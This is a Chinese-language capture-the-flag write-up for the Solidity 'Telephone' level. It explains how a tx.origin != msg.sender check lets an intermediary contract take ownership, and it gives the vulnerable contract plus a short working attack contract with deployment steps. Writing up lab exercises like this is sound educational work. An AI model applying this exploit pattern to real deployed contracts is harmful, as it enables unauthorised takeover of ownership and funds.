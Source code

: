 4_Telephone
==

本关要求
--

  1.Claim ownership of the contract below to complete this level.

合约代码
--

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Telephone {

      address public owner;

      constructor() public {
        owner = msg.sender;
      }

      function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
          owner = _owner;
        }
      }
    }
    
合约分析
--

查看<code>changeOwner</code>方法，当调用该方法时<code>tx.origin</code>的值不等于<code>msg.sender</code>，就能成功修改owner  

<code>tx.origin</code>是Solidity的一个全局变量，它遍历整个调用栈并返回最初发送调用（或事务）的帐户的地址，他与<code>msg.sender</code>的区别为：  
<code>tx.origin</code>等于初始调用合约或交易的地址
<code>msg.sender</code>等于当前调用合约或交易的地址  

直接在本关合约中使用<code>changeOwner</code>方法修改owner值时，code>tx.origin</code>的值等于<code>msg.sender</code>，所以无法修改成功，需要在其他合约中调用该合约的

攻击
--

编写攻击合约，通过接口调用的方式调用本关合约中的changeOwner方法。  

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    interface TelephoneInterface {
        function changeOwner(address _owner) external;
    }

    contract TelephoneAttack{

        TelephoneInterface t_interface;

        constructor(address _addr) public {
            t_interface = TelephoneInterface(_addr);
        }

        function attack(address _attackaddr) public {
            t_interface.changeOwner(_attackaddr);
        }
    }
编译并部署攻击合约，部署地址填写本关合约地址  

查看当前owner和player的值  

![图片](https://user-images.githubusercontent.com/35074461/196650031-757958ef-be04-45c8-a326-5c04eaae0913.png)

使用攻击合约中的attack方法修改owner,尝试将owner值修改为player地址，也就是当前Metamask的钱包地址  

![图片](https://user-images.githubusercontent.com/35074461/196651259-27a1270d-6b24-40b4-b264-aa27d60524fb.png)

攻击成功后查看owner，成功修改为当前player    
![图片](https://user-images.githubusercontent.com/35074461/196834235-7c5ec2df-5fe4-4637-af77-f54f92bbbca5.png)

